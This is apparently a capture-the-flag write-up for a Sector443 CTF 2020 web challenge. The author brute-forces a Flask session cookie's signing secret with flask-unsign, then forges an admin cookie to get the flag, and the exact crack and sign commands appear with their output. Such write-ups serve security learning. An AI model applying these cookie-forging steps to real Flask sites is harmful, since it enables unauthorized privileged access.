# Sector443 CTF 2020: Web - iknowsecret (443 points)

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/Web/images/sector443/iknowsecret/iknowsecret-chall_description.PNG "Challenge Description")

The information from the challenge description is a lot! But we get 3 important things:

1. we have user accounts to login
2. we have the URL 
3. we need to be `admin`

>Sounds easy! Lets see...


## Recon and Analysis

I don't like dirbuster the website, because usually in CTF challenges thats not the intended route.

My first thought after logging in with `Alice`, is that _it has to be an `authentication token` challenge._

I looked at the cookies and there was a session cookie called `session` that had the value:

```
session = eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LFSQ.UIhkGLEypsn2egiwIXKNMoyJ0Pc
```

At first glance, it may look like a [JWT](https://jwt.io/) token. Looking at it closely, it doesn't have the same structure as a JWT.
```
JWT's Structure
---------------

Header . Payload . Signature


This Token's Structure
----------------------

Payload . ???? . ????

Then its not JWT :( *le sad noises!*
```

When we send login requests multiple times, we get a different session cookie every time. 

```
1st: eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LFSQ.UIhkGLEypsn2egiwIXKNMoyJ0Pc
2nd: eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LXxA.Jc7Djou7JXl_H4WTJpDaAPwk-E4
3rd: eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LX6A.L9EuQltdNTUfk-0n_SZHh8yWn3M
```
The two things in common in these cookies are: The first half which is the payload or the data of the user `{"username": "Alice"}` base64 encoded, and the second half which always starts with `X4L***`.


The next key element to solve this challenge is the server's response headers. 

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/Web/images/sector443/iknowsecret/iknowsecret-python_server_flask.PNG "Flask Server")

That `server` header indicates that its running [Flask](https://flask.palletsprojects.com/), a python web server. 


## Solution

After googling around a bit for flask authentication token, I found something called [flask_unsign](https://pypi.org/project/flask-unsign/) that can take a token and bruteforce its secret, then using that secret we can forge other flask authentication tokens. 

```
kali@kali:~/Documents/sector443/iknowsecret$ python3 /home/kali/.local/lib/python3.8/site-packages/flask_unsign/__main__.py -u -c eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LX_Q.LU2iFhRBcP2nRHMCpdDQ1FnJY4o
[*] Session decodes to: {'username': 'Alice'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2560): -----BEGIN PRIVATE KEY-----eke
[+] Found secret key after 18048 attemptsxxxxxxxxxxxx
'xxxxxxxx'
```

>For some reason I wasn't able to get the program in my path, so I had to get a work around and use the main py script from the module itself...

We got the secret `xxxxxxxx`...

```
kali@kali:~/Documents/sector443/iknowsecret$ python3 /home/kali/.local/lib/python3.8/site-packages/flask_unsign/__main__.py --sign -c "{'username': 'admin'}" --secret 'xxxxxxxx' --legacy

eyJ1c2VybmFtZSI6ImFkbWluIn0.X4LfAw.G-znSjIPN3MlE92fEgvN2vVpMMA
```
`eyJ1c2VybmFtZSI6ImFkbWluIn0.X4LfAw.G-znSjIPN3MlE92fEgvN2vVpMMA` Is the admin token with a correct signature that will authenticate with the server.

After replacing the `session` cookie value with that new one, we will get the flag:

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/Web/images/sector443/iknowsecret/iknowsecret-flag.PNG "flag.. yay!")

Flag = `S443{D7WZDqWffsFwU99Z}`
